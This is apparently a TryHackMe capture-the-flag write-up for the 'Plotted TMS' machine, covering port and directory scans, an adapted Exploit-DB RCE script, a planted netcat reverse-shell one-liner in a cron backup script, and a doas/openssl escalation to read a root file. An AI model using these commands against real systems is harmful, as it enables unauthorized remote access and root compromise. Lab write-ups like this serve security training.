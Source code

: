 ```yaml
---
layout: post
title:  "Plotted TMS"
categories: [tryhackme]
tags: [linux]
---
```


You can find this machine here : https://tryhackme.com/room/plottedtms

### Port Scan

```bash
┌──(kali㉿Zeus)-[~]
└─$ sudo nmap -sS -sV 10.10.1.194   

PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http    Apache httpd 2.4.41 ((Ubuntu))
445/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
```

### Directory Scan Port 445

```bash
┌──(kali㉿Zeus)-[~]
└─$ dirb http://10.10.1.194:445           
<snip>
==> DIRECTORY: http://10.10.1.194:445/management/
==> DIRECTORY: http://10.10.1.194:445/management/admin/
==> DIRECTORY: http://10.10.1.194:445/management/assets/
==> DIRECTORY: http://10.10.1.194:445/management/build/
==> DIRECTORY: http://10.10.1.194:445/management/classes/
==> DIRECTORY: http://10.10.1.194:445/management/database/
<snip>
```

### Traffic Offense Management System - Remote Code Execution (RCE) (Unauthenticated)

![image]( /assets/img/plottedtms/2.PNG)

![image]( /assets/img/plottedtms/3.PNG)

```bash
locate php/webapps/50221.py
cp /usr/share/exploitdb/exploits/php/webapps/50221.py .
2to3 -w 50221.py
```

There was an error with the script so i edit the line 107

- before

```python
request = requests.post(find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
```

- after

```python
request = requests.post("http://10.10.1.194:445"+find_shell.get("src") + "?cmd=" + cmd, data={'key':'value'}, headers=headers)
```

### RCE Confirmed 

![image]( /assets/img/plottedtms/4.PNG)

### Privileges Escalation - User Owned

![image]( /assets/img/plottedtms/5.PNG)

![image]( /assets/img/plottedtms/6.PNG)

- Change the backup.sh content 

```bash
rm -rf backup.sh
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.18.45.56 5555 >/tmp/f" > backup.sh
chmod 777 backup.sh
chmod +x backup.sh
```

![image]( /assets/img/plottedtms/7.PNG)

### Privileges Escalation - Root Owned

```bash
plot_admin@plotted:~$ find / -perm -u=s -type f 2>/dev/null
<snip>
/usr/bin/doas
<snip>
```

- Resource : https://book.hacktricks.xyz/linux-unix/privilege-escalation#doas
- Resource : https://gtfobins.github.io/gtfobins/openssl/#file-read

```bash
permit nopass plot_admin as root cmd openssl
```

![image]( /assets/img/plottedtms/8.PNG)


```bash
LFILE=/root/root.txt
doas -u root openssl enc -in "$LFILE"
```


![image]( /assets/img/plottedtms/9.PNG)